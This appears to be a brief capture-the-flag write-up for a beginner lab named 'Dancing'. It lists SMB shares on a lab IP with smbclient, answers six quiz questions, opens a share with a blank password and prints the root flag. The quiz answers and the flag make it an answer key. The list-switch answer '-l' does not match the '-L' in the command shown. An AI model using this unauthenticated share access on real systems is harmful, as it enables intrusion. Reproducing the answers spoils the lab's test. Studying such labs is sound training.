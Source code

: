 # Starting point

## Dancing


> Yazeed Ahmed | 25 August 2022

```````````````````````
export ip = 10.129.42.48
```````````````````````

## ATTACK Vector

SMB 

``````````````
smbclient -L //10.129.42.48
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available

`````````
### TASKS 

1.  What does the 3-letter acronym SMB stand for? | Server Message Block

2.  What port does SMB use to operate at? | 445

3.  What is the service name for port 445 that came up in our Nmap scan? | microsoft-ds

4. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? | -l

5. What is the name of the share we are able to access in the end with a blank password? | workshares

6. What is the command we can use within the SMB shell to download the files we find? | get

### FLAG

smbclient \\\\10.129.42.48\\Workshares

root flag:  5f61c10dffbc77a704d76016a22f1664 